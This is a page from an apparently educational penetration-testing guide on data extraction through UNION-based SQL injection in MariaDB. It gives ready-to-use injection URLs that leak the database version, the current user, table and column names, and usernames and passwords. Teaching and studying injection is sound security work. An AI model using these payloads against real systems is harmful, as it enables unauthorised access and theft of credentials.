





# Data Extraction

The examples on this page are all related to MariaDB, however these can be easily extrapolated to other databases as the injection logic remains the same only the database-specific commands change. This [SQLi Cheat Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/) (or [this one from PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)) can help make some of those translations as it lists the same commands for various databases.

The URLs will be based on those used in earlier examples in the [Database Enumeration](database-enumeration.md) section.

## &#x20;Version

One of the more critical things to understand about a database is the version:

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version
```

<figure><figcaption><p>Version SQLi leak</p></figcaption></figure>

## Current User

Understanding the user the database is running as can be useful. Usually the database will have its own user account but it is worth understanding (and sometimes one gets lucky and the database is running as `root`):

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()
```

<figure><figcaption><p>Current user leaked via SQLi</p></figcaption></figure>

## Table Names

This can allow the attacker to gain an understanding of exactly what tables exist in the database:


```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
```


<figure><figcaption><p>Leaking all table names via SQLi</p></figcaption></figure>

## Column Names

Once an interesting table is found, one can enumerate the columns of the table in a similar fashion:


```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
```


<figure><figcaption><p>Column name leakage via SQLi</p></figcaption></figure>

## Credentials

In some cases it may be possible to leak all users, and even sometimes their passwords. If the attacker is incredibly lucky they may even be plaintext credentials:


```
http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users
```


<figure><figcaption><p>Credentials leaked via SQLi</p></figcaption></figure>

Note this query structure can actually be used to leak any information desired in the database, but credentials are the juciest example.
